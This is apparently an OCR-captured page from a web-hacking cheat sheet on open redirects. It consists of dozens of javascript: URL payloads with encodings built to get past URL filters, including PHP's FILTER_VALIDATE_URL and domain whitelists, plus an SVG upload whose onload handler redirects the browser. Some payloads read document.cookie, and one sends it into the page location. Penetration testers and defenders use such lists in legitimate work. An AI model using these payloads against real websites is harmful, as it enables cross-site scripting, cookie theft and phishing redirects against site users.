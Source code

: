 ```javascript
#Basic payload, javascript code is executed after "javascript:"
javascript:alert(1)

#Bypass "javascript" word filter with CRLF
java%0d%0ascript%0d%0a:alert(0)

#Javascript with "://" (Notice that in JS "//" is a line coment, so new line is created before the payload). URL double encoding is needed
#This bypasses FILTER_VALIDATE_URL os PHP
javascript://%250Aalert(1)

#Variation of "javascript://" bypass when a query is also needed (using comments or ternary operator)
javascript://%250Aalert(1)//?1
javascript://%250A1?alert(1):0

#Others
%09Jav%09ascript:alert(document.domain)
javascript://%250Alert(document.location=document.cookie)
/%09/javascript:alert(1);
/%09/javascript:alert(1)
//%5cjavascript:alert(1);
//%5cjavascript:alert(1)
/%5cjavascript:alert(1);
/%5cjavascript:alert(1)
javascript://%0aalert(1)
<>javascript:alert(1);
//javascript:alert(1);
//javascript:alert(1)
/javascript:alert(1);
/javascript:alert(1)
\j\av\a\s\cr\i\pt\:\a\l\ert\(1\)
javascript:alert(1);
javascript:alert(1)
javascripT://anything%0D%0A%0D%0Awindow.alert(document.cookie)
javascript:confirm(1)
javascript://https://whitelisted.com/?z=%0Aalert(1)
javascript:prompt(1)
jaVAscript://whitelisted.com//%0d%0aalert(1);//
javascript://whitelisted.com?%a0alert%281%29
/x:1/:///%01javascript:alert(document.cookie)/
";alert(0);//

```
**Open Redirect uploading svg files**
```html
<code>
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<svg
onload="window.location='http://www.example.com'"
xmlns="http://www.w3.org/2000/svg">
</svg>
</code>
```
